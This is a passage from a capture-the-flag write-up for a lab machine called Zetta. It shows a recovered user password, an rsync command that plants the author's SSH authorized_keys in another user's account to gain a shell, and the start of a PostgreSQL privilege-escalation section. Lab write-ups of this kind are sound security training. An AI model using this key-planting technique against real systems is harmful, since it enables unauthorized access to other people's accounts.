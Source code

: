 ```python
```
from here I got the password of user roy as :- computer
Now I tried to download the id_rsa key of roy user but that fails since roy didn't have id_rsa key instead used my own authorized_keys to get the shell of user roy. 

```bash
 root@gr4n173:~$rsync -rdt authorized_keys -6 -rdt rsync://roy@[dead:beef::250:56ff:febd:7d3b]:8730/home_roy/.ssh
```
Here now authorized_keys let me to  shell of user roy and also I had used the user roy along with it's password `computer`.

## Shell as roy

 Finally I got the shell of roy and got the `user.txt` as
 
```bash
root@gr4n173:~$ ssh roy@zetta.htb
Linux zetta 4.19.0-5-amd64 #1 SMP Debian 4.19.37-5+deb10u1 (2019-07-19) x86_64
Last login: Sat Feb 15 22:05:58 2020 from 10.10.14.193
roy@zetta:~$ whoami
roy
roy@zetta:~$ ls
user.txt
roy@zetta:~$ cat user.txt
a575bdb*************************
```


### Postgresql Exploit

After I got user.txt i.e. roy shell ,I found .tudu.xml file in home directory of roy where many to do list was written.

```html
.......

					<todo done="no" collapse="no">                                                                                            
                                <title>Check postgresql log for errors after configuration</title>                                                    
                                <text>                                                                                                                
</text>                                                                                                                                               
                        </todo>                                                                                                                       
                        <todo done="yes" collapse="no">
                                <title>Prototype/test DB push of syslog events</title>
                                <text> 
</text>
                        </todo>
                        <todo done="no" collapse="no">
                                <title>Testing</title>
                                <text> 
</text>
                        </todo>
                        <todo done="no" collapse="no">
                                <title>Rework syslog configuration to push all events to the DB</title>
                                <text> 
</text>
                        </todo>
                        <todo done="no" collapse="no">
                                <title>Find/write GUI for syslog-db access/view</title>
                                <text> 
```